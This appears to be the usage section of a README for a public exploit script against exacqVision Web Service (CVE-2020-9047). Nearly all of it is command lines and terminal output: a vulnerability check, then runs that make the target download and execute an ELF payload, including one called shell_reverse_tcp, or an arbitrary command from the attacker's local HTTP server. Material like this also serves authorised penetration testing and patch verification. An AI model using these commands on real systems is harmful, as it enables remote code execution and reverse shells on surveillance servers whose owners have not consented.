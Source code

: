 ```
┌─[root@parrot]─[~/demo]
└──╼ #python3 CVE-2020-9047.py CHECK 10.0.0.22 '' ''
Target OS: Linux i686
EVWS Version: 7.8.2.97826

Exploitable: YES
```

### Usage Example II: Linux ELF File Payload
To instruct the remote Linux system 10.0.0.22 (`RHOST`) running exacqVision Web Service on TCP port 8080 to install/execute an ELF binary payload that is present on the local system 10.0.0.11 (`LHOST`) on TCP port 80 at absolute file path `/root/demo/shell_reverse_tcp` (`PAYLOAD`), use the following command syntax.

```
┌─[root@parrot]─[~/demo]
└──╼ #python3 CVE-2020-9047.py LINUX 10.0.0.22 -p 8080 10.0.0.11 -s 80 '/root/demo/ping_me'
Target OS: Linux i686
EVWS Version: 7.8.2.97826

Exploitable: YES
Confirm the specified PAYLOAD is compatible with the remote architecture
Press ENTER to continue or CTRL+C to exit

Starting HTTP server on 0.0.0.0:80
Serving payload from /tmp/tmpo7516343 directory

192.168.57.161 - - [03/Jun/2020 23:11:09] "GET /op0tv6l4 HTTP/1.1" 200 -
192.168.57.161 - - [03/Jun/2020 23:11:13] "GET /aax35u41.deb HTTP/1.1" 200 -

Removing temporary directory structure /tmp/tmpo7516343
Stopping HTTP server on 0.0.0.0:80
```

### Usage Example III: Linux Command Payload
To specify a command (`--command`) to be excuted on the remote Linux system as the `PAYLOAD` argument (instead of an ELF binary payload), use the following command syntax.

```
┌─[root@parrot]─[~/demo]
└──╼ #python3 CVE-2020-9047.py LINUX 10.0.0.22 10.0.0.11 --command 'ping -c 5 10.0.0.11'
Target OS: Linux i686
EVWS Version: 7.8.2.97826

Exploitable: YES
The provided command will be executed on the remote system
Press ENTER to continue or CTRL+C to exit

Starting HTTP server on 0.0.0.0:8000
Serving payload from /tmp/tmpp2wmx5x3 directory

192.168.57.161 - - [03/Jun/2020 23:22:04] "GET /no_n0zgk HTTP/1.1" 200 -
192.168.57.161 - - [03/Jun/2020 23:22:08] "GET /1vlkyw3.deb HTTP/1.1" 200 -

Removing temporary directory structure /tmp/tmpp2wmx5x3
Stopping HTTP server on 0.0.0.0:8000
```
